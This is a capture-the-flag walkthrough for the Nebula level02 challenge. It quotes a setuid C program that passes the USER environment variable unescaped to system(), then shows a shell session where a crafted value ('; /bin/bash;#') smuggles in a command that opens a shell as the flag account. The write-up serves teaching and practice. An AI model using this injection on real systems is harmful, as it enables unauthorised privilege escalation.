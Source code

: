 This challenge gives us source code to the flag02 binary that we need to exploit.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}

```

The program does not escape semicolons which can be used to inject arbitrary commands.

```
level02@nebula:/home/flag02$ export USER=mike is cook

level02@nebula:/home/flag02$ ./flag02  cool
about to call system("/bin/echo mike is cool")
mike is cool

level02@nebula:/home/flag02$ export USER="mike is cool; /bin/bash;#"

level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo mike is cool; /bin/bash;# is cool")
mike is cool

flag02@nebula:/home/flag02$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```